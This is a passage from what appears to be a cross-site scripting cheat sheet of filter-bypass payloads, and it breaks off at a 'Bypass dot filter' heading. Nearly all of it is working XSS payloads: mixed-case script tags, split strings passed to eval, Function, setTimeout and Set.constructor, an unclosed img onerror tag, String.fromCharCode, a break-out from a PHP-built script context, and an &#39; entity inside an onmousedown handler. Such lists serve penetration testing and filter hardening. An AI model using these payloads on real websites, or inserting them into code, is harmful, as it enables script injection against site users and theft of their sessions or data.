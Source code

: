 
## Filter Bypass and exotic payloads

Bypass case sensitive

```javascript
<sCrIpt>alert(1)</ScRipt>
```

Bypass tag blacklist

```javascript
<script x>
<script x>alert('XSS')<script y>
```

Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```

Bypass with incomplete html tag - IE/Firefox/Chrome/Safari

```javascript
<img src='1' onerror='alert(0)' <
```

Bypass quotes for string

```javascript
String.fromCharCode(88,83,83)
```

Bypass quotes in script tag

```javascript
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

Bypass quotes in mousedown event

```javascript
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>

You can bypass a single quote with &#39; in an on mousedown event handler
```

Bypass dot filter
